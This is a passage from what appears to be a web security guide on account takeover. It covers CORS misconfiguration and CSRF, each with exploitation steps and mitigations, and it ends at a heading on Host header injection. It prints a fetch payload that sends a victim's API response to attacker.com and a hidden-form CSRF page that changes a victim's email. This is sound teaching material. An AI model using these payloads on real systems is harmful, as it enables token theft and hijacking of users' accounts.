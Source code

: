 ✅ Require **email verification before activation**.

✅ Link OAuth logins only to **verified** email accounts.

### 5. CORS Misconfiguration to ATO

**Concept:** Weak CORS policies allow attackers to steal authentication tokens from API responses.

#### Exploitation Steps:

1. Identify APIs that return `access_token`, `session_id`, or `secret_key`.
2. Check if the server allows **cross-origin** requests from `attacker.com`.
3. Inject a malicious JavaScript payload to fetch sensitive data:

`fetch("https://target.com/api/user", {credentials: "include"})       .then(response => response.text())            
`.then(data => fetch("https://attacker.com/log?data="+data));`

4. Steal authentication tokens and hijack accounts.

#### Mitigation:

✅ Restrict CORS to **trusted origins only**.

✅ **Do not expose sensitive data** to third-party origins.

✅ Use **SameSite cookies** and CSRF tokens.

### 6. CSRF to ATO

**Concept:** If email modification does not require authentication tokens, an attacker can force a victim to change their email.

#### Exploitation Steps:

1. Intercept an email change request:

`POST /change_email HTTP/1.1  Host: target.com  email=attacker@example.com`

2. Create a CSRF exploit page:

`<form action="https://target.com/change_email" method="POST">          <input type="hidden" name="email" value="attacker@example.com">          <input type="submit" value="Click Me">  </form>`

3. Send the link to the victim and wait for them to click.

#### Mitigation:

✅ Implement **CSRF tokens**.

✅ Require **current password** for email change.

✅ Use **email verification** for changes.

### 7. Host Header Injection

**Concept:** Some applications trust the `Host` header, allowing attackers to manipulate password reset emails.
